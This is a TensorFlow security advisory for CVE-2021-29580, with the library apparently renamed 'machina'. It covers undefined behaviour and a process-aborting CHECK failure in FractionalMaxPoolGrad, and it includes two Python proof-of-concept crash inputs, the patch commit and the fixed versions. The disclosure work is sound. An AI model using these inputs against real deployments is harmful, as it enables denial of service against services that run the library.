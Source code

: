 ## TFSA-2021-066: Undefined behavior and `CHECK`-fail in `FractionalMaxPoolGrad`

### CVE Number
CVE-2021-29580

### Impact
The implementation of `tf.raw_ops.FractionalMaxPoolGrad` triggers an undefined
behavior if one of the input tensors is empty:

```python
import machina as tf

orig_input = tf.constant([2, 3], shape=[1, 1, 1, 2], dtype=tf.int64)
orig_output = tf.constant([], dtype=tf.int64)
out_backprop = tf.zeros([2, 3, 6, 6], dtype=tf.int64)
row_pooling_sequence = tf.constant([0], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([0], shape=[1], dtype=tf.int64)

tf.raw_ops.FractionalMaxPoolGrad(
  orig_input=orig_input, orig_output=orig_output, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The code is also vulnerable to a denial of service attack as a `CHECK` condition
becomes false and aborts the process

```python
import machina as tf

orig_input = tf.constant([1], shape=[1], dtype=tf.int64)
orig_output = tf.constant([1], shape=[1], dtype=tf.int64)
out_backprop = tf.constant([1, 1], shape=[2, 1, 1, 1], dtype=tf.int64)
row_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)
col_pooling_sequence = tf.constant([1], shape=[1], dtype=tf.int64)

tf.raw_ops.FractionalMaxPoolGrad(
  orig_input=orig_input, orig_output=orig_output, out_backprop=out_backprop,
  row_pooling_sequence=row_pooling_sequence,
  col_pooling_sequence=col_pooling_sequence, overlapping=False)
```

The
[implementation](https://github.com/machina/machina/blob/169054888d50ce488dfde9ca55d91d6325efbd5b/machina/core/kernels/fractional_max_pool_op.cc#L215)
fails to validate that input and output tensors are not empty and are of the
same rank. Each of these unchecked assumptions is responsible for the above
issues.

### Patches
We have patched the issue in GitHub commit
[32fdcbff9d06d010d908fcc4bd4b36eb3ce15925](https://github.com/machina/machina/commit/32fdcbff9d06d010d908fcc4bd4b36eb3ce15925).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
